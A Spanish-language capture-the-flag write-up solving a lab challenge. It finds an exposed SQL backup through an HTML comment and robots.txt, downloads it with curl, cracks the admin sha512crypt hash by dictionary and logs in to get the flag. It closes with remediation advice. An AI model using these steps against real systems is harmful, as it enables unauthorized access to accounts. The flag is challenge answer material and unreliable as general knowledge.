

# Respaldo Comprometido

**Plataforma:** HackLab (SoftwareSeguro)

**Edición:** CTF AWS Student

**Categoría:** Information Disclosure *(no confirmada)*

**Puntaje:** 30 (el puntaje máximo de un desafío en la competencia fue 60)

**Herramientas:** curl, Python (passlib)

## Enunciado

> **NómiNet** es el panel interno de RRHH de una empresa. Para entrar al panel de
> administración hace falta la cuenta `admin`, y no tenés su contraseña.



## Reconocimiento

La portada es un simple login (`POST /`) de una app Flask. En el HTML de la home hay
dos pistas que apuntan al mismo lugar:

Un comentario olvidado por el desarrollador:

```html
<!-- TODO (dev): sacar el respaldo de /backup/usuarios.sql antes de pasar a prod -->
```

Y el `robots.txt`, que en vez de proteger la ruta, la señala:

```
User-agent: *
Disallow: /backup/
```

## Explotación

### 1. Descargar el respaldo expuesto

El backup está servido públicamente en el webroot:

```bash
curl -s https://<instancia>.softwareseguro.com.ar/backup/usuarios.sql
```

Es un dump SQL de la tabla `usuarios` con 50 cuentas y sus hashes. El comentario del
propio archivo confirma el esquema:

```sql
-- Las contraseñas se guardan con sha512crypt ($6$), el mismo esquema que
-- /etc/shadow en Linux. "Hasheadas = seguras", decía el que las eligió...
INSERT INTO usuarios (id, usuario, nombre, rol, password_hash) VALUES
  (1, 'admin', 'Soporte TI', 'admin', '$6$lab64adm$Guw66KEaFrRz0Itikk4AskR7aODQ/ZQ.nVlE.Wls5KIuyTu5abF.7I6oJENqCgtnvB1EsdUUDrGzqiP9zq0FU0'),
  ...
```

El respaldo completo está en [`assets/usuarios.sql`](assets/usuarios.sql).

### 2. Crackear el hash de `admin`

Un hash fuerte (sha512crypt) no salva a una contraseña débil. Se crackea offline por
diccionario con [`solve.py`](./solve.py) (paralelizado entre núcleos, porque
sha512crypt en Python puro es lento), usando el top-10k de contraseñas comunes de
SecLists:

```bash
pip install passlib
python solve.py 10k-most-common.txt
```

```
[+] admin : 'trustno1'
```

La contraseña estaba en el diccionario: **`trustno1`** (un clásico de `rockyou.txt`).

### 3. Login como `admin`

```bash
curl -s -i -c ck.txt -X POST -d "usuario=admin&password=trustno1" \
  https://<instancia>.softwareseguro.com.ar/
```

```http
HTTP/1.1 302 Found
Location: /panel
Set-Cookie: session=eyJyb2wiOiJhZG1pbiIsInVzdWFyaW8iOiJhZG1pbiJ9...; HttpOnly; Path=/
```

La cookie de sesión de Flask decodifica a `{"rol":"admin","usuario":"admin"}`.
Siguiendo la sesión al panel aparece la flag:

```bash
curl -s -b ck.txt https://<instancia>.softwareseguro.com.ar/panel
```

## Flag

```
a6924128ce967cd8d79a861fb151cf6d
```

## 🛡️ Remediación (Developer Perspective)

- **No publicar respaldos en el webroot.** El dump de la base nunca debería ser
  accesible por HTTP: va fuera del *docroot* o en almacenamiento con acceso
  autenticado. `robots.txt` **no** es un control de acceso: `Disallow` solo señala la
  ruta a quien lo lea.
- **Rotar las credenciales filtradas.** Una vez expuesto el respaldo, todos los hashes
  deben considerarse comprometidos; hay que forzar el cambio de todas las contraseñas.
- **Política de contraseñas + MFA.** Un esquema de hashing fuerte no compensa una
  contraseña que está en `rockyou`. Exigir contraseñas robustas y un segundo factor
  para el panel de administración.
